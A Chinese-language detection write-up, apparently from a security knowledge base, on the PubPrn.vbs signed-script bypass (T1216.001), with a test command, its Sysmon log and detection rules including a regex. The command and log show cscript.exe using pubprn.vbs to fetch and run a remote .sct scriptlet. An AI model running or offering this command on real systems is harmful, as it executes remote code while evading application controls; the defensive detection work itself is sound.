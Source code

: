 ## 测试复现

### 测试1 PubPrn.vbs Signed Script Bypass

```yml
C:\Users\Administrator.ZHULI>cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"
```

注意操作系统语言，语言不同，VBS脚本所在位置不同

## 测试留痕

Windows Sysmon日志

```yml
Process Create: 事件ID 1进程创建
RuleName: technique_id=T1059,technique_name=Command-Line Interface
UtcTime: 2022-01-11 08:05:07.983
ProcessGuid: {78c84c47-3a33-61dd-3924-000000000800}
ProcessId: 2000
Image: C:\Windows\System32\cscript.exe
FileVersion: 5.812.10240.16384
Description: Microsoft 
Product: Microsoft ® Windows Script Host
Company: Microsoft Corporation
OriginalFileName: cscript.exe
CommandLine: cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"
CurrentDirectory: C:\Users\Administrator.ZHULI\
User: ZHULI\Administrator
LogonGuid: {78c84c47-f665-61db-95da-440100000000}
LogonId: 0x144DA95
TerminalSessionId: 3
IntegrityLevel: High
Hashes: SHA1=0E3C0779D8EAAD3B00363D7890DDC8272B510D49,MD5=A45586B3A5A291516CD10EF4FD3EE768,SHA256=59D3CDC7D51FA34C6B27B8B04EA17992955466EB25022B7BD64880AB35DF0BBC,IMPHASH=2B44D2206B9865383429E9C1524F1CAC
ParentProcessGuid: {78c84c47-2489-61dd-f120-000000000800}
ParentProcessId: 4392
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe" 
ParentUser: ZHULI\Administrator
```

## 检测规则/思路

### 检测方法
1. 进程监控：
   - 检测`cscript.exe`或`wscript.exe`执行`pubprn.vbs`。
   - 检查命令行是否包含`script:`和`http(s)://`。
2. 命令行分析：
   - 正则表达式匹配：
     ```regex
     cscript\.exe.*pubprn\.vbs.*script:http(s)?://.*\.sct
     ```
3. 网络监控：
   - 检测`cscript.exe`发起的HTTP(S)请求，尤其是下载`.sct`文件。
4. 文件监控：
   - 检测非`C:\Windows\System32\Printing_Admin_Scripts\`路径下的`pubprn.vbs`。
5. 行为分析：